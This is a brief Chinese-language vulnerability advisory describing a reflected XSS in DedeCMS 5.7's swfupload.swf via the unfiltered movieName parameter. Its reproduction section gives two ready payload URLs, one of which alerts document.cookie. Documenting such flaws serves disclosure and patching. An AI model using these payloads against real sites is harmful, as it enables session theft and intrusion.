 Dedecms swf文件反射型xss
========================

一、漏洞简介
------------

DedeCMS 5.7
/images/swfupload/swfupload.swf文件movieName参数没有合适过滤，导致跨站脚本漏洞。

二、漏洞影响
------------

三、复现过程
------------

### 代码分析

详细说明：

Location: /uploads/images/swfupload/swfupload.swf

漏洞文件为：http://www.dedecms.com/images/swfupload/swfupload.swf

这个flash文件存在漏洞，此文件漏洞可参考:https://nealpoole.com/blog/2012/05/xss-and-csrf-via-swf-applets-swfupload-plupload/

### 复现

    /images/swfupload/swfupload.swf?movieName=%22]%29}catch%28e%29{if%28!window.x%29{window.x=1;alert%28%22ian最帅%22%29}}// 

    /images/swfupload/swfupload.swf?movieName=%22]%29}catch%28e%29{if%28!window.x%29{window.x=1;alert%28document.cookie%29}}//
